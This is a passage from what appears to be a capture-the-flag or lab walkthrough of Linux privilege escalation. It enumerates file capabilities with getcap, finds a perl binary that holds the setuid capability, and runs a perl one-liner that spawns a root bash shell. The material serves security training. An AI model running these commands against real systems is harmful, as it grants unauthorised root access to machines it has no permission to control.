

5.1 Scan the file system for files with capabilities
1. Start scanning the file system for files with capabilities using
getcap -r / The -r flag tells getcap to search recursively, ‘/‘ to indicate that we want to search the whole system.The output is usually filled with tens or hundreds of “Operation not supported” errors, making it hard to read. We can redirect errors to /dev/null to get a cleaner output. More info here.
On your SSH connection run the following command.
proxima@ProximaCentauri:~$getcap -r / 2>/dev/null
Output:
There is a copy of the binary perl which has a capability of setuid.
2. Visit https://gtfobins.github.io/gtfobins/perl/#capabilities and you'll find the “perl” capabilities.

3. Execute the vulnerable binary to escalate the current user privilege.
proxima@ProximaCentauri:~$/home/proxima/proximaCentauriA/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
Output:
Your are root.